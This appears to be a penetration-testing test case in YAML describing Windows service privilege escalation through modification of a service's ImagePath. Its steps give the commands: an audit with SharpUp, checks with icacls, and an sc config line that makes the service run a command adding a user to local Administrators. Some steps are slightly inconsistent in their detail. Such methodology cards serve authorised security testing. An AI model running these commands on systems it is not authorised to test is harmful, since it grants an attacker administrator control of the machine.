 ```yaml
---
testcase: Weak Service Permission Escalation via ImagePath Modification
platforms:
  - AD
  - Windows
methodology:
  - BlackBox
  - GreyBox
references:
  - https://attack.mitre.org/techniques/T1574/005
how-to-test: |
  1. On target, run SharpUp.exe audit to identify services with writable ACLs.
  2. Use icacls to confirm BUILTIN\Users or Authenticated Users have full control over the service executable.
  3. Execute sc config <ServiceName> binpath= "cmd /c net localgroup administrators <TestUser> /add".
  4. Stop the service with sc stop <ServiceName> to trigger execution of the modified ImagePath.
  5. Start the service with sc start <ServiceName> and observe failed start (expected), but command runs.
  6. Verify <TestUser> has been added to the local Administrators group via net localgroup administrators.
---
```

